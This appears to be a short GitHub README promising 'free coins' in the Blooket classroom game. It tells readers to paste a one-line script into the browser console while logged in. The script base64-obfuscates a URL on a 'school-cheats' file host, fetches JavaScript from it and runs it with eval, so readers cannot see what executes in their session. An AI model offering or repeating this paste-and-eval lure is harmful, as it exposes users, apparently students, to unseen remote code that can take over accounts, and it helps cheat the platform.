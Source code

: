 # Free-coins-for-blooket
500 coins per day for free     




Step 1: Open Blooket and go to inspect.








Step 2: Copy the code at the bottom of the page.




Step 3: Paste the code in the console after inspecting the page.




Step 4: type in 500 into the box that appears.




Step 5: Re-load the page.




Step 6: Enjoy!



The code is below.

    fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))

